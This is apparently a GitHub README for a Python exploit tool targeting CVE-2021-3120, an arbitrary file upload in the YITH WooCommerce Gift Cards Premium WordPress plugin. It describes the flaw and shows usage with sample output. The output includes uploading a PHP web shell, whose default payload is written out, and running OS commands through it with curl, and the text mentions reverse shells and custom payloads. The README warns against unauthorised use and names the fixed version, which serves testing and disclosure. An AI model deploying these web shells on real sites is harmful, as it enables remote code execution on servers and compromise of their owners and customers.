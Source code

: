 # yith-giftdrop
A tool for checking as well as exploiting CVE-2021-3120, Arbitrary File Upload vulnerability in YITH WooCommerce Gift Cards Premium version 3.3.0 and below.

## A Word of Warning
Please do not run this tool against systems that you do not have permissions to test. Doing so is illegal and you could face prosecution despite your best intentions. If you are an IT/cyber security enthusiast and you are curious about how this tool works, I recommend that you setup your own lab environment for testing this tool out. 

## Vulnerability Description
A critical vulnerability (CVSSv3 9.8) exists in the WordPress plugin "YITH WooCommerce Gift Cards Premium" version 3.3.0 and below, which allows an attacker to upload arbitary files to the server and therefore achieve remote code execution on the server operating system in the security context of the web server. 

The plugin allows gift card products to be added to the site (powered by the WordPress WooCommerce plugin) and offers an optional feature that let customers purchase gift cards with custom designs by upload a picture of their choice when placing the gift card product in the cart. The file is submitted via the "ywgc-upload-picture" file parameter of the POST request however the server does not perform any sanity checks before processing the request, and stores the file in a predictable location on the server, with the client-specified file name as well as file extension. Code execution can be easily achieved by uploading a PHP file with .php extension and then requesting the file at the uploaded location.

It is also worth noting that the vulnerability is exploitable regardless of whether the custom gift card design feature is enabled or not. The only condition required to exploit this vulnerability is the ability to add a gift card to the shopping cart. 

## Vulnerability Details
|      |      |
| ---  | ---  |
| Vulnerability Name | Arbitrary File Upload Leading to Remote Code Execution |
| CVE | CVE-2021-3120 |
| CVSS Vector | CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| CVSS Score | 9.8 (Critical) |
| Vendor | YITH |
| Product Affected | YITH WooCommerce Gift Cards Premium |
| Product Page | https://yithemes.com/themes/plugins/yith-woocommerce-gift-cards/ |
| Versions Affected | Version 3.3.0 and below | 
| Fixed Version | v3.3.1 |

Version 3.1.5 and version 3.3.0 were used for testing and were found to be vulnerable. Lab environment was running WordPress 5.6 and WooCommerce 4.8.0.

## About This Tool

This tool is written to automate the discovery of WordPress sites that may be affected by this issue. It does so by performing a version enumeration using information contained in the readme.txt file which is included with the plugin by default.

In addition, it has a capability to perform a proof of concept test by uploading a simple php script with a randomly generated name. The script contains a simple echo command, which when requested is used to confirm code execution. As the uploaded file will remain on the server, the randomly generated file name will help reduce the chance of the file being requested by others and also the script would not cause any harm to the server.

The tool can also be used to exploit this vulnerability. The default attack is to upload a simple PHP web shell. This can be used to execute further OS commands, including reverse shells. For more "interesting" scenarios you can specify a custom payload as well as custom file names to bypass further server-side restrictions.

## Installation

Simply clone the repository or download the yith-giftdrop.py file to run.

## Usage

To perform vulnerability test via version enumeration, specify the url of the gift card product (-u) and enumeration mode (-e). This is purely information gathering and does not attempt any file upload operations.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -e
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
```

To perform a proof of concept, use the -c option. This will leave a PHP file on the server so a warning will be displayed to inform you of this and the program will exit at this point. You will need to add the -a or --accept flag to confirm that you understood this and want to continue.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -c -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Uploaded file to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/7eb0273842554d6e9db937be07faf270.php
Info: Received expected response at payload url. CODE EXECUTION confirmed!
```

By default the tool will attempt to upload a basic web shell. Again you will need to add the -a or accept flag to confirm you want to proceed.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Payload uploaded to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php
Info: Default payload (OS Command Execution) is used. Try below to obtain server hostname:
Info:     curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=hostname
$ curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
For other uses of the tool, including the use of a custom payload and file name, see the help screen.
```
$ ./yith-giftdrop.py -h
usage: yith-giftdrop.py [-h] [-e] [-c] -u URL [-p PAYLOAD] [-f FILE] [-n NAME] [-a]


__   _______ _____ _   _   _____ _  __ _    ______
\ \ / /_   _|_   _| | | | |  __ (_)/ _| |   |  _  \
 \ V /  | |   | | | |_| | | |  \/_| |_| |_  | | | |_ __ ___  _ __
  \ /   | |   | | |  _  | | | __| |  _| __| | | | | '__/ _ \| '_ \
  | |  _| |_  | | | | | | | |_\ \ | | | |_  | |/ /| | | (_) | |_) |
  \_/  \___/  \_/ \_| |_/  \____/_|_|  \__| |___/ |_|  \___/| .__/
                                                            | |
                                                            |_|
    A tool to check & exploit the arbitary file upload vulnerability
    in YITH WooCommerce Gift Cards Premium v3.3.0 and below

    CVE:        CVE-2021-3120
    Written by: Guy Liu
                guy.liu@air-sec.co.uk

optional arguments:
  -h, --help            show this help message and exit
  -e, --enum            Enum plugin version only
  -c, --check           Check for file upload and code execution only
  -u URL, --url URL     URL of Gift Card Product
  -p PAYLOAD, --payload PAYLOAD
                        Specify a payload to upload to server. Default is <?php echo shell_exec($_GET['cmd']);?>
  -f FILE, --file FILE  Specify a custom file to upload. Cannot be used with --payload/-p option
  -n NAME, --name NAME  Use specified file name rather than automatically generated file name
  -a, --accept          I understand that this program will leave payload files on the server

```

Enjoy!





















